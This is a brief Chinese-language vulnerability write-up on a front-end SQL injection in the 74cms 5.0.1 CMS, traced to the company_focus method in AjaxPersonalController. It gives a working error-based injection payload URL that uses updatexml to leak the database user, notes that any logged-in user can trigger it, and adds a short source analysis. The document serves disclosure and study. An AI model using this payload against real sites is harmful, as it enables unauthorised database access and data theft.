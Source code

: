 # 74cms v5.0.1 前台 sql 注入

> 原文：[http://book.iwonder.run/0day/74cms/2.html](http://book.iwonder.run/0day/74cms/2.html)

## 一、漏洞简介

74cms 5.0.1 前台 AjaxPersonalController.class.php 存在 SQL 注入

## 二、漏洞影响

## 三、复现过程

### 具体信息

文件位置：74cms\upload\Application\Home\Controller\AjaxPersonalController.class.php

方法：function company_focus($company_id)

是否需登录：需要

登录权限：普通用户即可

### Payload:

```
http://0-sec.org/74cms/5.0.1/upload/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a 
```

![image](img/32f8638a165a05f30e5008e8231ba118.png)

### 源码分析：

文件：74cms\upload\Application\Home\Controller\AjaxPersonalController.class.php

company_focus 方法是参数化函数，$company_id 参数是不经过 I 函数过滤的，所以只要 where 可以控制，那就可以注入

![image](img/0a45e3e53e15e770a7937a500ab6fed2.png)

跟踪 add_focus(),发现 SQL 语句参数外部都可以控制，导致了注入漏洞

![image](img/ecbf1c9093907d3f91683fa9f29d8959.png)

## 四、参考链接

> [https://www.t00ls.net/thread-54436-1-1.html](https://www.t00ls.net/thread-54436-1-1.html)

